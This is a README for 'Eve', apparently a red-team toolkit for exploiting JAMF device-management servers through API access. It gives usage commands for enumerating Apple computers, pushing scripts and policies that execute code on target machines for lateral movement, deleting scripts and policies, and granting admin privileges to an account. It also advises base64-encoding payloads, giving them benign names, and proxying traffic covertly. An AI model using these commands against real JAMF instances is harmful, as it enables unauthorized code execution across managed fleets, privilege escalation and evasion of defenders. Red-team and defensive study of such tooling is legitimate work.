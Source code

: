 # Eve
<p align="center" width="100%">
    <img align="middle" src="/images/Eve.png" width=35% height=35%/>
</p>

## Overview
Eve is a JAMF exploitation toolkit used to interact with either cloud hosted JAMF tenants or locally hosted JAMF servers using various API calls. To use this toolkit credentials for an account registered with the JAMF instance that has API access will be required. This tooling automates attacks that my team and I have performed successfully to exploit JAMF access to enumerate Apple devices as well as execute code in varying contexts to laterally move to different systems. The intended user for this toolkit should already have some awareness about JAMF API permissions to know how to best leverage their access. For those trying to discover what can be done I recommend starting <a href="https://developer.jamf.com/jamf-pro/docs/classic-api-minimum-required-privileges-and-endpoint-mapping">here</a>.

## Requirements
1. Python3
2. A unix system capable of executing the embedded scripts with curl (to be converted to Python modules in the future).
3. <a href="https://github.com/rofl0r/proxychains-ng">proxychains</a> (this tooling was originally written to be proxied through systems to internal JAMF servers for covert red teaming, will be changed to optional parameter in the future).
4. <a href="https://jqlang.org">jq</a> for parsing JSON output of searches or log queries

## Setup
```
# Setup /etc/proxychains.conf to use proxied system or alias proxychains command to a benign action

git clone https://github.com/RobotOperator/Eve.git
cd Eve

#Get initial token using API username and password, basic authentication string, or an already obtained Bearer token
#API port is usually either 443 or 8443 for local instances

python3 token_ApplePy.py --username api_admin --password 'my_pass123!@#' --jamf_server https://test.jamfcloud.com --api_port 443
```

## Usage
### Enumerating Computers
```
#Searching for computers with ADM_ the same as a simple search in the GUI
python3 search_ApplePy.py --jamf_server https://test.jamfcloud.com --api_port 443 --search_string "ADM_"

#Get computer details with UDID
./computer_details_by_id.sh <JAMFURL:PORT> <Bearer Token> <Computer ID>
./computer_details_by_id.sh https://test.jamfcloud.com:443 'eyxxx' 1029
```
### Scripts
```
#Get script contents by script id
./get_script_contents.sh <JAMFURL:PORT> <Bearer Token> <Script ID>
./get_script_contents.sh https://test.jamfcloud.com:443 'eyxxx' 29

#Push new script to the JAMF server, requires the source script to have quotes escaped/prepped. Highly recommend base64 encoding scripts and decoding the content to be executed
./push_script.sh <JAMFURL:PORT> <Bearer Token> <Path to Script> <New Script Name>
./push_script.sh https://test.jamfcloud.com:443 'eyxxx' ~/Eve/script6.txt 'Updated_System_Check'

#Delete scripts by id
./delete_script_by_id.sh <JAMFURL:PORT> <Bearer Token> <Script ID>
./push_script.sh https://test.jamfcloud.com:443 'eyxxx' 29
```
### Policies
```
#Delete policy by id
python3 policy_Applepy.py --bearer_token 'eyxxxx' --jamf_server https://test.jamfcloud.com --action delete --policy_id 493 --api_port 443

#Push new policy to execute scripts on target computers specified by ids, update computer ids embedded within the zsh script for now
./push_policy.zsh <JAMFURL:PORT> <Bearer Token> <Script ID to Execute> <New Policy Name>
./push_policy.zsh https://test.jamfcloud.com 'eyxxxx' 29 'New_Compliance_Policy'

#Retrive policy logs for a specific computer by supplying the UDID
./policy_logs_by_udid.sh <JAMFURL:PORT> <Bearer Token> <Computer UDID>
./policy_logs_by_udid.sh https://test.jamfcloud.com 'eyxxxx' AB5XDXXXX
```
### Privileges
```
#Update privileges of a target account id, admin.xml serves as a template for granting admin privileges and is statically specified in script
./update_privileges.sh <JAMFURL:PORT> <Bearer Token> <Account ID>
./update_privileges.sh https://test.jamfcloud.com 'eyxxxx' 285
```

## Planned Work
1. Python Conversions of Scripts
2. Make proxychains an optional parameter
3. JAMF descriptor scripts
4. Automating backup profiles
5. Automating PKG deployments when enabled

## Contributors
<a href="https://github.com/MayerDaniel">Daniel Mayer</a>
